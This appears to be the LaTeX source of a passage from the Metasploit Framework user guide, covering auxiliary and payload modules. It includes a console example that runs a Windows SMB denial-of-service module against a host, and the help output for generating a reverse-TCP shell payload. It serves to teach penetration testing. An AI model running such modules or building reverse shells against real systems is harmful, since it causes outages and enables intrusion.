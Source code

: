 \documentclass{report}
\begin{document}
	\section{Auxiliary Modules}

\par
Auxiliary modules are used to perform arbitrary, ``one-off'' actions that are
not necessarily related to exploitation. For example, port scanning, denial of
service, fuzzing, etc.
	
		\subsection{Running an Auxiliary Task}

\par
Auxiliary modules are quite a bit similar to exploit modules. Instead of having
targets, they have actions, which are specified through the \texttt{ACTION}
option. To run an auxiliary module, you can either use the \texttt{run} command,
or you can use the \texttt{exploit} command -- they're both the same thing.

\begin{verbatim}
msf > use dos/windows/smb/ms06_035_mailslot
msf auxiliary(ms06_035_mailslot) > set RHOST 1.2.3.4
RHOST => 1.2.3.4
msf auxiliary(ms06_035_mailslot) > run
[*] Mangling the kernel, two bytes at a time...
\end{verbatim}

	\section{Payload Modules}

\par
Payload modules encapsulate the arbitrary code (shellcode) that is executed as
the result of an exploit succeeding. Payloads typically build a communication
channel between Metasploit and the victim host.

		\subsection{Generating a Payload}

\par
The console interface supports generating different forms of a payload. To
generate payloads, first select a payload using the \texttt{use} command.

\begin{verbatim}
msf > use windows/shell_reverse_tcp
msf payload(shell_reverse_tcp) > generate -h
Usage: generate [options]

Generates a payload.

OPTIONS:

    -b <opt>  The list of characters to avoid: '\x00\xff'
    -e <opt>  The name of the encoder module to use.
    -h        Help banner.
    -o <opt>  A comma separated list of options in VAR=VAL format.
    -s <opt>  NOP sled length.
    -t <opt>  The output type: ruby, perl, c, or raw.

msf payload(shell_reverse_tcp) >
\end{verbatim}
\end{document}
